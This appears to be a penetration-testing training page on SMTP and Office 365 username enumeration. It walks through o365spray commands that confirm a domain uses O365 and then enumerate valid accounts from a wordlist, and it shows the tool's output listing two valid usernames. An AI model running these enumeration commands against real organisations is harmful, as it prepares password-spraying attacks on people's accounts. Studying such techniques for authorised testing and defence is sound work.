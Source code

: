 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# SMTP

As discussed, cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration. Let's use Office 365 as an example and explore how we can enumerate usernames in this cloud platform.

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

### **O365 Spray**

Let's first validate if our target domain is using Office 365.

```bash
clue@machine[~]$ python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

Now, we can attempt to identify usernames.

```shell-session
clue@machine[~]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```
